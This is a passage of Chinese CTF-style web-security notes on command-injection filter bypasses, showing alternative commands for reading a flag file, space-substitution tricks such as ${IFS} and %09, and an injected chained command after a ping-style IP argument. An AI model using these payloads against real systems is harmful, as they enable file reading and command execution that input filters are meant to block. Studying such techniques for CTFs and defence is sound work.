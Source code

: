 #### 3.绕过读取文件的命令

**绕过方法**

```text
[root@kali flag123]# curl file:///flag123/flag
  flag{suifeng}
  [root@kali flag123]# strings flag 
  flag{suifeng}
  [root@kali flag123]# uniq -c flag
        1 flag{suifeng}
  [root@kali flag123]# bash -v flag
  flag{suifeng}
  flag: line 1: flag{suifeng}: command not found
  [root@kali flag123]# rev flag
  }gnefius{galf
  [root@kali flag123]#
```

find -- 列出当前目录下的文件以及子目录所有文件



![img](PictureFile/【Web】TOP漏洞.assets/v2-e8b6aecb76e6ddd4ba2c62a1cf725c52_720w.webp)

#### 4.绕过空格

```text
%09（url传递）(cat%09flag.php)
${IFS}
$IFS$9
<>（cat<>/flag）
<（cat</flag）
{cat,flag}
```

#### 5.过滤目录分割

```text
采用多管道命令绕过
127.0.0.1||cd flag_is_here;cat flag_262431433226364.php
```

![img](PictureFile/【Web】TOP漏洞.assets/v2-9d2fbc6a8bf15feb9ddc381cfdecd2f3_720w.webp)
